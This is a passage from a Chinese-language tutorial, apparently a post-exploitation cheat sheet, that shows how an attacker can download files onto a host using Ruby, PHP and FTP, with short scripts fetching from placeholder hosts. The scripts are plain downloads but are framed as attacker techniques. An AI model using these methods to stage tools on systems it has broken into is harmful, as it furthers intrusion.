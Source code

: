 #### 2.7 Ruby

> Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

执行脚本文件是这样；

```
ruby test.rb
```

#### 2.8 PHP

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```
#!/usr/bin/php
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

执行脚本文件是这样:

```
php test.php
```

#### 2.9 FTP

> 一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit
```

当然根据实际情况也可以进入交互终端：

```
ftp 192.168.3.2
输入用户名和密码后
lcd E:\file # 进入E盘下的file目录
cd www # 进入服务器上的www目录
get access.log # 将服务器上的access.log下载到E:\file
```
